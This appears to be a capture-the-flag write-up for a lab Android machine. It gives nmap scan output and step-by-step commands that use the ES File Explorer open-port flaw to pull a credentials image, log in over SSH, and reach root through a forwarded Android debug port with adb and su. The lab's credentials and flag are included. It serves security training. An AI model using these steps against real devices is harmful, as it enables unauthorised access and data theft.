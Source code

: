 ### Scan
```
./nmapAutomator.sh 10.10.10.247 All

Running all scans on 10.10.10.247

Host is likely running Linux
                                                                                                                                                                                             
                                                                                                                                                                                             
---------------------Starting Port Scan-----------------------                                                                                                                               
                                                                                                                                                                                             


PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1



---------------------Starting Script Scan-----------------------
                                                                                                                                                                                             


PORT     STATE SERVICE VERSION
2222/tcp open  ssh     (protocol 2.0)
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio




---------------------Starting Full Scan------------------------
                                                                                                                                                                                             


PORT      STATE SERVICE
2222/tcp  open  EtherNetIP-1
45567/tcp open  unknown
59777/tcp open  unknown



Making a script scan on extra ports: 45567, 59777
                                                                                                                                                                                             


PORT      STATE SERVICE VERSION
45567/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```
### Enum
nmap thinks that 59777 is a minecraft server, but having done work with Bukkit in the past, I doubt that's the case. I did research to find out more about the port, and stumbled on ES File Explorer. I'm assuming this is our poe.
Theres a git repo https://github.com/fs0c131y/ESFileExplorerOpenPortVuln.git
we can peruse with `python3 poc.py --cmd list[Files,Pics,etc.] --host 10.10.10.247`
![Image](/assets/Screenshot 2024-10-08 at 7.22.00 PM.png)
creds jpg. grab it `python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247`
![Image](/assets/Screenshot 2024-10-08 at 7.23.50 PM.png)
creds ;??![Image](/assets/Screenshot 2024-10-08 at 7.24.22 PM.png) `kristi:Kr1sT!5h@Rp3xPl0r3!`
ssh in `ssh kristi@10.10.10.247 -p 2222`
dir structure ![Image](/assets/Screenshot 2024-10-08 at 7.27.01 PM.png)
Going back to where photo was in `storage/emulated/0` we find user
USER: f32017174c7c7e8f50c6da52891ae250

### Priv Esc
we can see what ports are active with `netstat -tnlp`
we see 5555, which didnt show in our scans. and through research, this is a port for android debugging.
we can reconnect with the port forwarded to our machine using SSH 
`ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222`
![Image](/assets/Screenshot 2024-10-08 at 7.47.55 PM.png)
Then, on our machine again, `apt install adb` will give us the tools to interact with the software
`adb devices`
connect to the forwarded port `adb connect localhost:5555`
Drop a shell there`adb -s localhost:5555 shell`
We can abuse privileges by using `su` and `find / name root.txt 2>/dev/null` to locate the flag.
![Image](/assets/Screenshot 2024-10-08 at 7.48.13 PM.png)